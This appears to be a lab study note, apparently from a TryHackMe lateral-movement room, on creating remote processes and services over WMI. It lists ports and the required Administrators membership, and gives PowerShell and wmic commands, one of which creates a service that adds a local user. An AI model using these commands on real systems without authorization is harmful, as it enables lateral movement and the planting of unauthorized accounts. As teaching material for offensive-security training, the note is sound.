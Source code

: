 
### Remote Process Creation Using WMI

- Ports :

		- 135/TCP, 49152-65535/TCP (DCERPC)
		- 5985/TCP (WinRM HTTP) or 5986/TCP(WinRM HTTPS)

- Required Group Memberships: `Administrators`

- We can remotely spawn a process from PowerShell by leveraging **Windows Management Instrumentation (WMI)**, sending a WMI request to the `Win32_Process` classto spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```


- Notice that `WMI` won't allow you to see the output of any command but will indeed create the required process silently.

- On legacy systems, the same can be done using `wmic` from the command prompt:

```powershell
> wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```


### Creating Services Remotely with `WMI`

- Ports:

		- 135/TCP, 49152-65535/TCP (DCERPC)
		- 5985/TCP, (WinRM HTTP) or 5986/TCP(WinRM HTTPS)

- Required Group Memberships: `Administrators`

##### Creating services with `WMI` through PowerShell

```powershell
> Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
	Name = "THMService2";
	DisplayName = "THMService2";
	PathName = "net user munra2 Pass123 /add"; # Your payload
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual"
}
```


- And then, we can get handle on the service and start it with the following commands:

```powershell
> $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

> Invoke-CimMethod -InputObject $Service -MethodName StartService
```
